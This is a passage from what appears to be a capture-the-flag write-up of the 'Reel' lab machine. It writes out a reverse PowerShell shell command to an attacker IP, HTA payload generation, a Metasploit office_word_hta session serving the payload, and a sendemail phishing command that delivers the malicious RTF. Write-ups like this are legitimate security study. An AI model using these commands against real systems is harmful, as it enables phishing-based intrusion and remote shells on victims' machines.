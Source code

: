 ```a
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 9999
```

We just run Out-HTA to generate the .hta file to include with the exploit:

```a
┌─[baud@parrot]─[~/reel]
└──╼ $pwsh
PowerShell 6.2.2
Copyright (c) Microsoft Corporation. All rights reserved.

https://aka.ms/pscore6-docs
Type 'help' to get help.

PS /home/baud/reel> ./Out-HTA.ps1
HTA written to /home/baud/reel\WindDef_WebInstall.hta.
PS /home/baud/reel>
```

And still nothing, the .hta file is downloaded but the .ps1 isn't.

---

## Exploitation attempt 4: Metasploit module

A little frustrated I decided to turn to the Metasploit module and it worked on the first try:

```a
msf5 > use exploit/windows/fileformat/office_word_hta
msf5 exploit(windows/fileformat/office_word_hta) > set filename document.rtf
filename => document.rtf
msf5 exploit(windows/fileformat/office_word_hta) > set srvport 9090
srvport => 9090
msf5 exploit(windows/fileformat/office_word_hta) > set srvhost 10.10.14.37
srvhost => 10.10.14.37
msf5 exploit(windows/fileformat/office_word_hta) > set lhost 10.10.14.37
lhost => 10.10.14.37
msf5 exploit(windows/fileformat/office_word_hta) > set uripath baud.hta
uripath => baud.hta
msf5 exploit(windows/fileformat/office_word_hta) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.37:4444
[+] document.rtf stored at /home/baud/.msf4/local/document.rtf
[*] Using URL: http://10.10.14.37:9090/baud.hta
[*] Server started.
msf5 exploit(windows/fileformat/office_word_hta) >
```

This starts an HTTP server hosting the .hta payload generated by Metasploit itself and also crafts the .rtf document to send the victim like before:
 
```a
┌─[baud@parrot]─[~/reel]
└──╼ $sendemail -f baud@megabank.com -t nico@megabank.com -u Test -m "Hey, let's try this again" -a /home/baud/.msf4/local/document.rtf -s 10.10.10.77
Sep 02 14:15:14 parrot sendemail[7999]: Email was sent successfully!
```
